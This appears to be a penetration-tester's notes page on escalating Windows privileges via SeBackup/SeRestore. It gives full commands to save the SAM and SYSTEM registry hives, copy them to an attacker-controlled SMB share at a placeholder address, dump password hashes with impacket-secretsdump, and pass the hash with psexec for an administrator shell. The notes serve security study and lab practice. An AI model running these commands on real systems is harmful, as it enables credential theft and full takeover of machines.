 # Abusing privileges

**To view the privileges of the current user:**

```powershell
C:\> whoami /priv
```

### SeBackup / SeRestore

The `impacket` tool can be used to perform various tasks such as starting a _SMB_ server, dumping secrets from hives in the Windows registry, and running commands with `psexec`, among many others.

Refer to my `impacket` notes for more information:

{% embed url="https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking/tools-services/general/impacket" %}

Suppose we have gained a remote shell on a server with the `SeBackUp` and `SeRestore` privileges

```powershell
C:\target> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  ...
SeRestorePrivilege            Restore files and directories  ...
```

Due to the set privileges, we are able to save the contents of the `SAM` and `SYSTEM` hive registry to a location of our choice (`C:\Users\jarrett\system.hive` and `C:\Users\jarrett\sam.hive` in this case):

```powershell
C:\target> reg save hklm\system C:\Users\jarrett\system.hive
C:\target> reg save hklm\sam C:\Users\jarrett\sam.hive
```



The command below starts a simple _SMB_ server on the attacker machine with a network share named `public` pointing to the `share` directory. This allows us to transfer the files from the target machine to the attacker at a particular share point (`share` folder).

_**Attacker machine**_

```bash
attacker@attacker_ip:~$ impacket-smbserver -smb2support -username jarrett -password mynamejeff public share
```



The command below copies the content of `system.hive` and `sam.hive` at the specified directory to the share point on the attacker machine.

_**Target machine**_

```powershell
C:\target> copy c:\users\jarrett\system.hive \\<attacker_ip>\public\
C:\target> copy c:\users\jarrett\sam.hive \\<attacker_ip>\public\

```



**The next few commands should be ran from the attacker machine**

The command below dumps the hashes from the `sam.hive`and `system.hive`files present on the current folder (specified by the `LOCAL` target option).

```bash
attacker@attacker_ip:~/share$ ls 
sam.hive system.hive

attacker@attacker_ip:~/share$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket vxxx - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: ...
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
...:::
Guest:xxx:xxx:xxx::
Administrator:xx12xx:xx34xx::
...
```

The command below uses the hashes found from the `impacket-secretsdump` command above, to authenticate as the _**administrator**_ user. This provides us with a remote shell as the _administrator_ user on the target Windows machine

```bash
attacker@attacker_ip:~/share$ impacket-psexec -hashes xx12xx:xx34xx administrator@10.10.x.x
...

C:\Windows\system32> 
```



_**Windows privileges to admin list**_

{% embed url="https://github.com/gtworek/Priv2Admin" %}
